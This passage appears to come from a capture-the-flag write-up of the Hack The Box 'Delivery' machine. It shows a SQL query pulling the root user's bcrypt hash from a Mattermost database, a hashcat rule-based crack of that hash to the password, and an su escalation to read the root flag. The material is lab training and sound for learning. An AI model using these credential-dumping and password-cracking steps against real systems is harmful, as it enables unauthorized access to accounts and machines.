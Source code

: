 ... *kk*, then let's find the admin!

```sql
SELECT  Username, Email, Roles, Password 
FROM    Users 
WHERE   Roles != 'system_user';
```

```txt
+----------+-------------------+--------------------------+--------------------------------------------------------------+
| Username | Email             | Roles                    | Password                                                     |
+----------+-------------------+--------------------------+--------------------------------------------------------------+
| root     | root@delivery.htb | system_admin system_user | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
+----------+-------------------+--------------------------+--------------------------------------------------------------+
1 row in set (0.001 sec)
```

... could've also just searched for the user root... but... it's *cooler* this way... ^^. Anyway, looks like we've got a hash now!

## privesc

### cracking

Using the following hint from the *Internal* team at Mattermost ... 

```txt
PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

... and root's password hash, which we just recovered ...

```bash
echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO' > ./root-hash.txt
```

... it's not too challenging cracking the password using something along the lines of:

```bash
echo 'PleaseSubscribe!' | hashcat -a0 -m3200 -r /usr/share/hashcat/rules/best64.rule --show ./root-hash.txt
```

```txt
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

... *yay!* Looks like that worked!

### su

Privilege escalation isn't *too* challenging now ^^. Simply *su* to root:

```bash
su
```

... and get the root flag, of course:

```bash
cat $HOME/root.txt
```

```txt
368*****************************
```
